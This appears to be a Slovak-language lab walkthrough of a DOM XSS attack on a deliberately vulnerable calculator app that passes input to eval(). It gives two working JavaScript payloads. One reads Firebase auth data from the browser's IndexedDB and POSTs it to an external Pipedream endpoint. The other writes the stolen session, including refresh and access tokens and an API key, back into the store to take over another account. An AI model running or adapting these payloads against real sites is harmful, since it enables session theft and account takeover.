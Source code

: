 # Document object model cross site scripting (DOM XSS)

### Prostredie: Dp-Test-Enviroment - https://github.com/MatusVetrik/dp-test-enviroment

- V tomto útoku využijeme zraniteľnú funkciu eval(), ktorá vyhodnotí akúkoľvek hodnotu, ktoré je vložená ako argument. Vie vypočítavať rôzne rovnice, preto je ideálnym riešením pre primitívnu kalkulačku.
- Každopádne tým, že vyhodnotí akúkoľvek hodnotu tak vyhodnotí aj akýkoľvek škodlivý kód, ktorý ako argument vložíme.
- Input s textom "Enter equation..." vyhodnocuje práve funkcia eval a predpokladáme, že na tomto mieste vzniká zraniteľnosť.
- Pokúsime sa o ukradnutie uživateľových dát z databázy prehliadaču. Do inputu vložíme nasledujúci kód.
    
          const request = window.indexedDB.open("firebaseLocalStorageDb");
            request.onsuccess = (event) => {
              const db = event.target.result;

              const transaction = db.transaction(["firebaseLocalStorage"], "readonly");
              const objectStore = transaction.objectStore("firebaseLocalStorage");

              const getDataRequest = objectStore.getAll();

              getDataRequest.onsuccess = (event) => {

              const headers = new Headers();
              headers.append("Content-Type", "text/plain");

              const options = {
                method: "POST",
                headers,
                mode: "cors",
                body: JSON.stringify(event.target.result),
              };

              fetch("https://eojph9o2kgja7k2.m.pipedream.net", options);
              }
            };
- Tento kód sprístupní lokálnu databázu indexDB prehliadača a umožní nám vytiahnúť hodnoty z databázy. Náš momentálne zaujíma tabuľka "firebaseLocalStorage", ktorú nastavuje
  externá API Firebase, ktorú používa aplikácia na autentifikáciu. Po jej vytiahnutí sa celý objekt odošle na náš vytvorený endpoint na Pipedreame (inštalácia link).
- Teraz sa môžeme odhlásiť a prihlásiť sa do lubovľného účtu, ktorý už máme vytvorený alebo si vytvoríme nový.
- Prejdeme znova na obrazovku s kalkulačkou a vložíme nasledujúci kód do rovnakého inputu.
        const request = window.indexedDB.open("firebaseLocalStorageDb");
        request.onsuccess = (event) => {
          const db = event.target.result;
  
          const transaction = db.transaction(["firebaseLocalStorage"], "readwrite");
          const objectStore = transaction.objectStore("firebaseLocalStorage");
  
          const data = {
            fbase_key:
              "firebase:authUser:AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg:[DEFAULT]",
            value: {
              uid: "RTejhfCWw0OAlHcoAj41Fy93ZJJ3",
              email: "mate@gmail.com",
              emailVerified: false,
              isAnonymous: false,
              providerData: [
                {
                  providerId: "password",
                  uid: "mate@gmail.com",
                  displayName: null,
                  email: "mate@gmail.com",
                  phoneNumber: null,
                  photoURL: null,
                },
              ],
              stsTokenManager: {
                refreshToken:
                  "AMf-vByIsfsiw-8vT6jzvFkIqMjZhSvTzJ16dCdww3w_Pk_9kwwfanAaW09W-DWc70KzKjxtp7Dq7aEPRImKkgLIHiCN4ROLsi5NBpvQrRSNGonNI-5wt_
                    9PHITM0bt5ZXSayEMzx7dRUHJdj8-lbwiflyUREJh3TUy-QLmoxyg3rY-G6B1Ff1OQPTv-VRFJGmp3GQ2dJ5Bl0hyBKiELNwcjKDTrVyRjPw",
                accessToken:
                  "eyJhbGciOiJSUzI1NiIsImtpZCI6ImJhNjI1OTZmNTJmNTJlZDQ0MDQ5Mzk2YmU3ZGYzNGQyYzY0ZjQ1M2UiLCJ0eXAiOiJKV1QifQ
      .eyJpc3MiOiJodHRwczovL3NlY3VyZXRva2VuLmdvb2dsZS5jb20vZGlwbG9tb3ZrYS10ZXN0LWFwcCIsImF1ZCI6ImRpcGxvbW92a2EtdGVzdC1hcHA
      iLCJhdXRoX3RpbWUiOjE3MTE3OTA0OTYsInVzZXJfaWQiOiJSVGVqaGZDV3cwT0FsSGNvQWo0MUZ5OTNaSkozIiwic3ViIjoiUlRlamhmQ1d3ME9BbE
      hjb0FqNDFGeTkzWkpKMyIsImlhdCI6MTcxMTc5MDQ5NiwiZXhwIjoxNzExNzk0MDk2LCJlbWFpbCI6Im1hdGVAZ21haWwuY29tIiwiZW1haWxfdmVyaWZ
      pZWQiOmZhbHNlLCJmaXJlYmFzZSI6eyJpZGVudGl0aWVzIjp7ImVtYWlsIjpbIm1hdGVAZ21haWwuY29tIl19LCJzaWduX2luX3Byb3ZpZGVyIjoicGFzc
      3dvcmQifX0.0Mp-T84dmzTpiAdVyhl68WV2qDvTZ78IHGYca5YpBgBx4A_m_YXoJ-IYBaTl-Yp-fXYzuKN3Vff0iqkNA5nVtUcOFfG1X157DrkE80gxp6e
      7ELg2jn_N6mF1Xw-jTSaJoAAsG8f3e_wHp-cfVqWyBNrcUTABrP8Hy_bv-iyUII60PZtjiu_oo7ObVFhoPEim82rlPJDLiwpPMos7qGEBsvw4-fKQvLPkR
      wkGbCf8bKt6Pn_jThtR9JPuhU_G2SlgppA0PuuLSyO8KViFoH4XgFMi9kyX3YU8vmg7O5bDwCYemLLpvQt4KY900_qQgxS2GnX89h_V-hNu_bGqQpL9Zg",
                expirationTime: 1711794096425,
              },
              createdAt: "1711388904315",
              lastLoginAt: "1711790496471",
              apiKey: "AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg",
              appName: "[DEFAULT]",
            },
          };
  
          objectStore.clear()
  
          const addDataRequest = objectStore.add(data);
  
          addDataRequest.onsuccess = (event) => alert("Success!");
        };
- Tento kód uloží, respektíve prepíše dáta o prihlásenom používateľovi. Objekt "dáta" nahradíme novým objektom, ktorý nám došiel na Pipedream. Zo skopírovaného objektu musíme zo všetkých atribútov odstrániť úvodzovky a nechať len pri hodnotách.
- Po kliknuti klávesy "Enter" sme si do prehliadača uložili prihlasovacie údaje iného používateľa a teraz sme prihlásený pod jeho prihalsovacimi údajmi.